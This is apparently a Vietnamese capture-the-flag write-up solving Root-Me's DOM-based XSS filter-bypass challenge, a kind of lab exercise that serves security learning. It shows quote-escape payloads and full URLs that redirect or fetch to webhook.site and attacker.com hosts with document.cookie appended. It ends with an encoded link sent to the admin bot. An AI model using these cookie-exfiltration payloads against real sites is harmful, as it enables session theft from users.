









## XSS DOM Based - Filters Bypass

Challenge: https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass

Ở bài này ta sẽ cần inject vào phần `Submit` number và sau đó gửi url bị inject đó cho bên admin qua `Contact`

Thử với 1 input đúng:\
\

Thử thoát với dấu `'` và thực hiện JS bằng `-`: `' -alert(1)-; '`\

Kết quả:\

Ở đây ta xác nhận đã thực hiện được JS ta tiếp tục triển khai gửi gói tin ra ngoài:

Thử với `fetch`, `location` và xóa `https:` nhưng đều chưa thành công đều nhận về phản hồi:\

Cuối cùng với payload này ta thành công với việc gửi gói tin:
`' -(document.location.href='//webhook.site/25afdc63-5145-4c3d-b6e3-81071ef3d830')-; '`

Bây giờ lấy cookie: `' -(document.location.href='//webhook.site/25afdc63-5145-4c3d-b6e3-81071ef3d830?c='.concat(document.cookie))-; '`

Gửi cho admin bên phần `Contact` và đợi admin truy cập url:
`http://challenge01.root-me.org/web-client/ch33/?number=%27%2d(document.location.href=%27//webhook.site/25afdc63-5145-4c3d-b6e3-81071ef3d830?c=%27.concat(document.cookie))%2d%27`

Ngoài ra còn có 1 số payload mình tìm hiểu được:

- `http://challenge01.root-me.org/web-client/ch33/?number=%27%0adocument.location.href=%27//webhook.site/a1d5b0ad-391f-4343-92fa-76797844588b?c=%27.concat(document.cookie)%0a//`

- ``aaaaa'-fetch(`//attacker.com/?q=${document.cookie}`)//``

- Dùng Web Socket

